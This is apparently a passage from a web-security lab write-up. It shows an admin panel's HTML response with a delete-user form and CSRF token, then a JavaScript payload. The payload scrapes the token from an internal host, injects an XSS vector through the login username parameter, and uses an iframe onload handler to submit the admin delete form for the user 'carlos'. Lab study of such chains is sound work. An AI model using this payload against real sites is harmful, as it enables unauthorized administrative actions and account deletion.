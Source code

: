 **Response ->**

```
<div theme="">
    <section class="maincontainer">
      <div class="container is-page">
          <header class="navigation-header">
              <section class="top-links">
                  <a href="/">Home</a><p>|</p>
                  <a href="/admin">Admin panel</a><p>|</p>
                  <a href="/my-account?id=administrator">My account</a><p>|</p>
              </section>
          </header>
          <header class="notification-header">
          </header>
          <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
              <input required="" type="hidden" name="csrf" value="QFbz78LF9vxTEIep6Rewk3XAyt8NiDmK">
              <label>Username</label>
              <input required="" type="text" name="username">
              <button class="button" type="submit">Delete user</button>
          </form>
        </div>
    </section>
</div>
```

Finally we can delete the user.

```
<script>
  function xss(url, text, vector) {
    location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
  }
  
  function fetchUrl(url){
    fetch(url).then(r=>r.text().then(text=>
    {
      xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
    }
    ))
  }
  
  fetchUrl("http://192.168.0.117:8080");
</script>
```
